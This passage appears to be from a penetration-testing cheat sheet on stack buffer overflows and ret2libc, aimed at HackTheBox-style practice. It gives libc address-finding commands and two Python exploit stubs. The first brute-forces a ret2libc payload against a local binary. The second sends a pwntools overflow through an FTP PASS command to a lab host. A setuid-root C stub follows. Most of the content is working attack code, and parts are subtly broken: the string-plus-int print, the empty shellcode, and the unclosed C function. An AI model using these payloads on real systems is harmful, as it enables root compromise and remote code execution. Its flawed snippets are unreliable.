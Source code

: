 - ret2libc
  - Find libc address: ​`ldd /usr/local/bin/backup`
  - Find libc `system` function: ​`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
  - Find libc `exit` function: ​`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
  - Find libc `/bin/sh` reference: ​`strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh` 

**Practice**

- <https://github.com/justinsteven/dostackbufferoverflowgood>
- vsftpd backdoor: <https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html>
- HTB - Octomber: `/usr/local/bin/ovrflw`

**Exploit Stubs**

```python
import struct, subprocess

libc = 0xf75e2000
sysOffset = 0x0003a940
sysAddress = libc + sysOffset
exitOffset = 0x0002e7b0
exitAddress = libc + exitOffset
binsh = libc + 0x0015900b

payload = "A" * 512
payload += struct.pack("<I", sysAddress)
payload += struct.pack("<I", exitAddress)
payload += struct.pack("<I", binsh)

attempts = 0

while True:
  attempts += 1
  print "Attempts: " + attempts
  subprocess.call(["/usr/local/bin/vulnerable-binary", "arg1", "arg2", payload])
```

```python
from pwn import *

shellcode = ""

payload = "A"*28 + p32(0xffffd630) + shellcode
r = remote('10.10.10.34', 7411)
print r.recv(1024)

r.sendline('USER admin')
print r.recv(1024)

r.sendline('PASS ' + payload)
r.interactive()
```

Simple SUID Binary
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
  setuid(0);
  setgid(0);
  system("id");
  return 0;
```